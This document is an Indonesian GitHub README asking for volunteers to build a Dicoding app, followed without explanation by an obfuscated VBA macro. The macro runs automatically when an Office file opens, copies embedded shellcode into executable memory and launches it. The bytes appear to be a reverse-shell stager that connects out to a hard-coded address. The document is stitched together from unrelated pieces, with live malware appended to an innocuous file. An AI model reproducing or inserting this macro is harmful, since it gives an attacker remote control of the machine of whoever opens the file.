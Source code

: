 # Volunter Pembuatan Aplikasi
Repository ini digunakan sebagai sayembara pencarian volunter untuk pembuatan aplikasi [Dicoding](www.dicoding.com).<br>
Jika Anda tertarik untuk menjadi Volunter, silakan lakukan PR(pull-request) pada berkas ini ya.<br>

Silakan gunakan format berikut:<br>
**\* Nama, [LinkedIn/GitHub/Website](Alamat URL).**  

Berikut adalah daftar Volunter yang diterima:
* Oon Arfiandwi, [oo.or.id](https://oo.or.id).
* Gilang Ramadhan, [Linkedin](https://www.linkedin.com/in/gilang-adhan/).


#If Vba7 Then
        Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Eioodbm As Long, ByVal Hiaeggdz As Long, ByVal Hpiubcvxv As LongPtr, Llwoqp As Long, ByVal Sdwr As Long, Friitorhf As Long) As LongPtr
        Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Pqocfrh As Long, ByVal Pvcplgfdx As Long, ByVal Ewussv As Long, ByVal Zgmtqlf As Long) As LongPtr
        Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Nav As LongPtr, ByRef Gms As Any, ByVal Rapq As Long) As LongPtr
#Else
        Private Declare Function CreateThread Lib "kernel32" (ByVal Eioodbm As Long, ByVal Hiaeggdz As Long, ByVal Hpiubcvxv As Long, Llwoqp As Long, ByVal Sdwr As Long, Friitorhf As Long) As Long
        Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Pqocfrh As Long, ByVal Pvcplgfdx As Long, ByVal Ewussv As Long, ByVal Zgmtqlf As Long) As Long
        Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Nav As Long, ByRef Gms As Any, ByVal Rapq As Long) As Long
#EndIf

Sub Auto_Open()
        Dim Mevxm As Long, Bswokhhbz As Variant, Mdspza As Long
#If Vba7 Then
        Dim  Hzmyjgarx As LongPtr, Vksdlvixa As LongPtr
#Else
        Dim  Hzmyjgarx As Long, Vksdlvixa As Long
#EndIf
        Bswokhhbz = Array(252,232,143,0,0,0,96,49,210,137,229,100,139,82,48,139,82,12,139,82,20,49,255,139,114,40,15,183,74,38,49,192,172,60,97,124,2,44,32,193,207,13,1,199,73,117,239,82,87,139,82,16,139,66,60,1,208,139,64,120,133,192,116,76,1,208,139,72,24,139,88,32,80,1,211,133,201,116,60,49,255, _
73,139,52,139,1,214,49,192,193,207,13,172,1,199,56,224,117,244,3,125,248,59,125,36,117,224,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4,139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18,233,128,255,255,255,93,104,51,50,0,0,104,119,115,50,95,84, _
104,76,119,38,7,137,232,255,208,184,144,1,0,0,41,196,84,80,104,41,128,107,0,255,213,106,10,104,10,4,61,251,104,2,0,17,92,137,230,80,80,80,80,64,80,64,80,104,234,15,223,224,255,213,151,106,16,86,87,104,153,165,116,97,255,213,133,192,116,10,255,78,8,117,236,232,103,0,0,0, _
106,0,106,4,86,87,104,2,217,200,95,255,213,131,248,0,126,54,139,54,106,64,104,0,16,0,0,86,106,0,104,88,164,83,229,255,213,147,83,106,0,86,83,87,104,2,217,200,95,255,213,131,248,0,125,40,88,104,0,64,0,0,106,0,80,104,11,47,15,48,255,213,87,104,117,110,77,97,255,213, _
94,94,255,12,36,15,133,112,255,255,255,233,155,255,255,255,1,195,41,198,117,193,195,187,240,181,162,86,106,0,83,255,213)

        Hzmyjgarx = VirtualAlloc(0, UBound(Bswokhhbz), &H1000, &H40)
        For Mdspza = LBound(Bswokhhbz) To UBound(Bswokhhbz)
                Mevxm = Bswokhhbz(Mdspza)
                Vksdlvixa = RtlMoveMemory(Hzmyjgarx + Mdspza, Mevxm, 1)
        Next Mdspza
        Vksdlvixa = CreateThread(0, 0, Hzmyjgarx, 0, 0, 0)
End Sub
Sub AutoOpen()
        Auto_Open
End Sub
Sub Workbook_Open()
        Auto_Open
End Sub
